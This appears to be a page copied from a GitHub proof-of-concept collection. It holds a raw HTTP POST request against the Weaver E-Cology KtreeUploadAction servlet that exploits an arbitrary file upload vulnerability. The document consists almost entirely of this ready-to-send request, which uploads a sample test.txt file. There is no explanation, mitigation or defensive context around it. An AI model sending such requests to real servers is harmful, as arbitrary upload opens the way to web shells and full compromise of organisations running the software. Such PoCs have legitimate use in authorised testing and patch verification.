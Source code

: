 # E-Cology-KtreeUploadAction_fileupload


from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AEE-Cology-KtreeUploadAction%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

```
POST /weaver/com.weaver.formmodel.apps.ktree.servlet.KtreeUploadAction?action=image HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Content-Length: 160
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cache-Control: max-age=0
Connection: close
Content-Type: multipart/form-data; boundary=--------1638451160
Cookie: Secure; JSESSIONID=abc6xLBV7S2jvgm3CB50w; Secure; testBanCookie=test
Upgrade-Insecure-Requests: 1

----------1638451160
Content-Disposition: form-data; name="test"; filename="test.txt"
Content-Type: application/octet-stream

test
----------1638451160--
```
